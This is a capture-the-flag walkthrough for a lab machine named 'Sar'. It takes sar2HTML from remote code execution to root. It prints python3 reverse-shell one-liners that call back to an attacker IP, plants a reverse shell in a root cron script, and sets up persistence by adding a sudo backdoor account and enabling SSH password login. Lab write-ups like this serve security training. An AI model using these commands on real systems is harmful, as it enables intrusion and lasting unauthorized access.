


# Sar

- [Discovery](#discovery)
- [Foothold](#foothold)
- [Privilege Escalation](#privilege-escalation)
- [Persistence (Bonus)](#persistence-bonus)

## Discovery

1) We run `nmap` to find open ports

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -p- -T4 sar

...

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

2) We run `nmap` again with service version detection and default scripts

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -p 22,80 -T4 -A sar

...

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
|_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

3) We kick off path enumeration (with `gobuster`) and while we wait, we check the webserver out in the browser. Navigating to the webserver's root path in the browser treats us to an Apach2 Ubuntu Default page

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://sar/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```



4) Anything fun in good-ol' `robots.txt`:

```
┌──(kali㉿kali)-[~]
└─$ curl -s http://sar/robots.txt                
sar2HTML
```

Ah, that's promising! Sounds like a tool name.

5) We check out that path (`/sar2HTML`):



4) I bet exploit-db has something for this old ass software. We search for exploits:

```
┌──(kali㉿kali)-[~]
└─$ searchsploit sar2html
------------------------------------------------ ---------------------------------
 Exploit Title                                  |  Path
------------------------------------------------ ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution   | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution       | php/webapps/47204.txt
------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Isn't that convenient!

## Foothold

5) We examine the exploit file `49344.py` and test it:

```
┌──(kali㉿kali)-[~]
└─$ python /usr/share/exploitdb/exploits/php/webapps/49344.py
Enter The url => http://sar/sar2HTML/
Command => echo hello world
hello world

Command => whoami
www-data
```

Looks like it works! That's encouraging!

6) We find out first flag in the home directory:

```
Command => ls -la /home
total 16
drwxr-xr-x  3 root     root     4096 Jul 22  2020 .
drwxr-xr-x 24 root     root     4096 Mar 10  2020 ..
-rw-r--r--  1 www-data www-data   33 Mar  4 07:34 local.txt
drwxr-xr-x 17 love     love     4096 Jul 24  2020 love

Command => cat /home/local.txt
1c99c18fa3425b7a2fa71c4fce22d819
```

## Privilege Escalation

7) Before moving on to escalating ourselves to `root` we're going to set up a reverse shell because this "terminal" will very quickly get annoying...

- We set up a local listener in our Kali machine to catch the shell

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80          
listening on [any] 80 ...
```

- Back in the exploit "shell", we invoke the reverse shell

```
Command => which python

Command => which python3
/usr/bin/python3

Command => python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.199\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"
```

- Our local listener catches the shell:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.199] from (UNKNOWN) [192.168.184.35] 44934
www-data@sar:/var/www/html/sar2HTML$ whoami
whoami
www-data
www-data@sar:/var/www/html/sar2HTML$ 
```

8) Okay *now* we investigate:

- users with consoles

```
www-data@sar:/$ cat /etc/passwd | grep bash
cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
love:x:1000:1000:love,,,:/home/love:/bin/bash
```

- binaries with SUID

```
www-data@sar:/$ ls -la /usr/bin | grep 'rws'
ls -la /usr/bin | grep 'rws'
-rwsr-xr-x  1 root root       22528 Jun 28  2019 arping
-rwsr-xr-x  1 root root       76496 Mar 23  2019 chfn
-rwsr-xr-x  1 root root       44528 Mar 23  2019 chsh
-rwsr-xr-x  1 root root       75824 Mar 23  2019 gpasswd
-rwsr-xr-x  1 root root       40344 Mar 23  2019 newgrp
-rwsr-xr-x  1 root root       59640 Mar 23  2019 passwd
-rwsr-xr-x  1 root root       22520 Mar 27  2019 pkexec
-rwsr-xr-x  1 root root      149080 Jan 18  2018 sudo
-rwsr-xr-x  1 root root       18448 Jun 28  2019 traceroute6.iputils
www-data@sar:/$ ls -la /usr/sbin | grep 'rws'
ls -la /usr/sbin | grep 'rws'
-rwsr-xr--  1 root dip    378600 Jun 12  2018 pppd
```

- cron jobs * **here's the gold** *

```
www-data@sar:/$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

Can we modify the `finally.sh` script, which runs as root - meaning it could get us a shell as root?

9) We cannot modify finally.sh but we can read it. Inspecting it we find that it invokes a different script `write.sh` in the same directory - which we **CAN** modify!

```
www-data@sar:/var/www/html$ ls -la
ls -la
total 40
drwxr-xr-x 3 www-data www-data  4096 Jul 24  2020 .
drwxr-xr-x 5 www-data www-data  4096 Mar  4 08:12 ..
-rwxr-xr-x 1 root     root        22 Oct 20  2019 finally.sh
-rw-r--r-- 1 www-data www-data 10918 Oct 20  2019 index.html
-rw-r--r-- 1 www-data www-data    21 Oct 20  2019 phpinfo.php
-rw-r--r-- 1 root     root         9 Oct 21  2019 robots.txt
drwxr-xr-x 4 www-data www-data  4096 Mar  4 07:54 sar2HTML
-rwxrwxrwx 1 www-data www-data    30 Jul 24  2020 write.sh

www-data@sar:/var/www/html$ cat finally.sh
cat finally.sh
#!/bin/sh

./write.sh
```

10) Back in my Kali machine, I set up a listener on port 443 to catch the shell we'll set up next:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443               
listening on [any] 443 ...
```

10) I add the python reverse shell invocation into the `write.sh` script:

```
www-data@sar:/var/www/html$ echo python3 -c "'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.199\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'" >> write.sh

www-data@sar:/var/www/html$ cat write.sh
cat write.sh
#!/bin/sh

touch /tmp/gateway
python3 -c "'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.199\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'
```

11) I test the `write.sh` script by invoking it as user `www-data`:

```
www-data@sar:/var/www/html$ ./write.sh
./write.sh
```

and I see the shell come back to Kali

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443                 
listening on [any] 443 ...
connect to [192.168.45.199] from (UNKNOWN) [192.168.184.35] 57126
www-data@sar:/var/www/html$ whoami
whoami
www-data
```

This means it will probably work! I exit the shell on the 443 listener and re-start it. The hope is that the next time the cron job runs we will get a shell as root.

12) After about a minute, we get a shell as root!

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.199] from (UNKNOWN) [192.168.184.35] 57130
root@sar:/var/www/html# whoami
whoami
root
root@sar:/var/www/html# ls -la /root | grep -e proof -e txt
ls -la /root | grep -e proof -e txt
-rw-r--r--  1 root root   33 Mar  4 07:34 proof.txt
-rw-r--r--  1 root root   32 Jul 14  2020 root.txt
root@sar:/var/www/html# cat /root/proof.txt
cat /root/proof.txt
de9f1a0c9cf133fdf7572c581b62a365
```

## Persistence (Bonus)

13) As usual, we set up a new user so that we can come back through the ssh server with root privileges

```
root@sar:/var/www/html# useradd -m hacker
useradd -m hacker

root@sar:/var/www/html# echo 'hacker:hacker' | chpasswd
echo 'hacker:hacker' | chpasswd

root@sar:/var/www/html# usermod -aG sudo hacker
usermod -aG sudo hacker
```

PasswordAuthentication is disabled

```
cat /etc/ssh/sshd_config | grep Password
#PasswordAuthentication yes
#PermitEmptyPasswords no
# PasswordAuthentication.  Depending on your PAM configuration,
# PAM authentication, then enable this but set PasswordAuthentication
```

So we enable it and restart the ssh server

```
root@sar:~# echo 'PasswordAuthentication yes' >> /etc/ssh/sshd_config
echo 'PasswordAuthentication yes' >> /etc/ssh/sshd_config

root@sar:~# systemctl restart ssh
systemctl restart ssh

root@sar:~# systemctl status ssh
systemctl status ssh
WARNING: terminal is not fully functional
-  (press RETURN)
● ssh.service - OpenBSD Secure Shell server
   Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enab
   Active: active (running) since Mon 2024-03-04 08:36:59 IST; 3s ago
  Process: 1953 ExecReload=/bin/kill -HUP $MAINPID (code=exited, status=0/SUCCES
  Process: 1952 ExecReload=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
  Process: 18479 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
 Main PID: 18480 (sshd)
    Tasks: 1 (limit: 1122)
   CGroup: /system.slice/ssh.service
           └─18480 /usr/sbin/sshd -D

Mar 04 08:36:59 sar systemd[1]: Starting OpenBSD Secure Shell server...
Mar 04 08:36:59 sar sshd[18480]: Server listening on 0.0.0.0 port 22.
Mar 04 08:36:59 sar sshd[18480]: Server listening on :: port 22.
Mar 04 08:36:59 sar systemd[1]: Started OpenBSD Secure Shell server.
```

14) We test our backdoor:

```
┌──(kali㉿kali)-[~]
└─$ ssh hacker@sar     
hacker@sar's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.0.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

356 packages can be updated.
233 updates are security updates.

Your Hardware Enablement Stack (HWE) is supported until April 2023.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$ whoami
hacker
$ sudo whoami
[sudo] password for hacker: 
root
$ 
```

Success!
